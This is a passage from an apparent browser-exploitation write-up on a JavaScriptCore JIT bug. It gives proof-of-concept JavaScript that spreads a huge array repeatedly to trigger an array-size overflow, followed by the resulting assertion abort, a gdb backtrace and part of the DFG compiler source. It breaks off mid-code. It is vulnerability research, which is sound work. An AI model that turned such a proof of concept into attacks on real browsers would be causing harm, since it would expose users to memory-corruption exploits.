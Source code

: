 How to do? We can split the big array to some smaller arrays but with more `spread` to concat them together. With this idea, we can build the `poc` as below:

```js
const MAX_ITERATIONS = 0x2000;

function foo(arr)
{
    return [...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr, ...arr]
}

let arr = [1.1];
for(let i=0; i<MAX_ITERATIONS; i++) {
    foo(arr)
}

let a = new Array(0x2000001)                                                                  

a.fill(1.1)

foo(a)
```

It goes with a `abort` error.

```bash
$ ~/work/browser/webkit_svn/WebKitBuild/Debug/bin/jsc 2.js
WARNING: ASAN interferes with JSC signal handlers; useWebAssemblyFastMemory will be disabled.
ASSERTION FAILED: result
../../Source/JavaScriptCore/runtime/JSArray.h(276) : static JSC::JSArray* JSC::JSArray::create(JSC::VM&, JSC::Structure*, unsigned int)
[1]    97300 abort (core dumped)  ~/work/browser/webkit_svn/WebKitBuild/Debug/bin/jsc 2.js
```

check in gdb, we can see that it goes `operationNewArrayWithSize` bytecode handler. It seems that the jit code funtion has been bailed out to interpreter.

```bash
pwndbg> bt
#0  __GI_raise (sig=sig@entry=0x6) at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff37ec859 in __GI_abort () at abort.c:79
#2  0x00007ffff617ccce in JSC::JSArray::create (vm=..., structure=0x7fffb03f2a00, initialLength=0x20000010) at ../../Source/JavaScriptCore/runtime/JSArray.h:276
#3  0x00007ffff6154a79 in JSC::DFG::operationNewArrayWithSize (exec=0x7fffffffd200, arrayStructure=0x7fffb03f2a00, size=0x20000010, butterfly=0x0) at ../../Source/JavaScriptCore/dfg/DFGOperations.cpp:1644
#4
```

Go back to see `compileAllocateNewArrayWithSize`, we can see it will actually go to the `operationNewArrayWithSize` bytecode handler when trigger the slow case.

```c++
// JavaScriptCore/dfg/DFGSpeculativeJIT.cpp: 13050
void SpeculativeJIT::compileAllocateNewArrayWithSize(JSGlobalObject* globalObject, GPRReg resultGPR, GPRReg sizeGPR, IndexingType indexingType, bool shouldConvertLargeSizeToArrayStorage)
{
    GPRTemporary storage(this);
    GPRTemporary scratch(this);
    GPRTemporary scratch2(this);

    GPRReg storageGPR = storage.gpr();
    GPRReg scratchGPR = scratch.gpr();
    GPRReg scratch2GPR = scratch2.gpr();

    m_jit.move(TrustedImmPtr(nullptr), storageGPR);

```